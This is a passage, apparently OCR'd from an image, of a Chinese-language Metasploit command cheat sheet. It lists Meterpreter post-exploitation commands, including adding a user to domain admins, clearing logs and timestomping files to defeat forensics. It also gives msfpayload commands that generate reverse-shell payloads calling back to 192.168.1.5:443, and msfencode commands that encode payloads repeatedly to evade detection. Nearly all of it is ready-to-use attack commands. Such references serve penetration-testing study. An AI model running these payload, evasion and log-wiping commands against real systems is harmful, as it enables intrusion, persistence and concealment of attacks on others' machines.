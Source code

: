 将用户添加到目标主机的域管理员组中

clearv

清除目标主机上的日志记录

timestomp

修改文件属性，例如修改文件的创建时间（反取证调查）

reboot

重启目标主机

三、MSF payload命令
msfpayload -h

MSFpayload的帮助信息

msfpayload windows/meterpreter/bind_tcp O

列出攻击载荷的配置项（任何攻击载荷都可以配置）

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 X > payload.exe

创建一个Meterpreter的reverse_tcp攻击载荷，回连到192.168.1.5的443端口，将其保存为payload.exe的Windows可执行程序

msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=443 R > payload.raw

生成原始格式的文件，该文件将在MSFencode中使用。

msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 C > payload.c

生成C格式的shellcode

msfpayload windows/meterpreter/bind_tcp LHOST=192.168.1.5 LPORT=443 J > payload.java

生成以%u编码方式的JavaScript语言字符串

四、MSFencode命令
msfencode -h

帮助信息

msfencode -l

列出所有可用的编码器

msfencode -t (c,elf,exe,java,js_le,js_be,perl,raw,ruby,vba,vbs,loop-vbs,asp,war,macho)

显示编码缓冲区的格式

msfencode -i payload.raw -o encoded_payload.exe -e -x86/shikata_ga_nai -c 5 -t exe

使用shikata_ga_nai编码器对payload.raw文件进行5次编码，然后导出一encoded_payload.exe文件

msfpayload windows/meterpreter/bind_tcp LPORT=443 R | msfencode -e x86/_countdown -c -5 -t raw | msfencode -e x86/shikata_ga_nai -c -5 -t exe -o multi-encoded_payload.exe

创建一个经过多种编码格式嵌套编码的攻击载荷

msfencode -i payload.raw BufferRegister=ESI -e x86/alpha_mixed -t c

创建一个纯字母数字的shellcode，由ESI寄存器指向shellcode，以c语言格式输出。
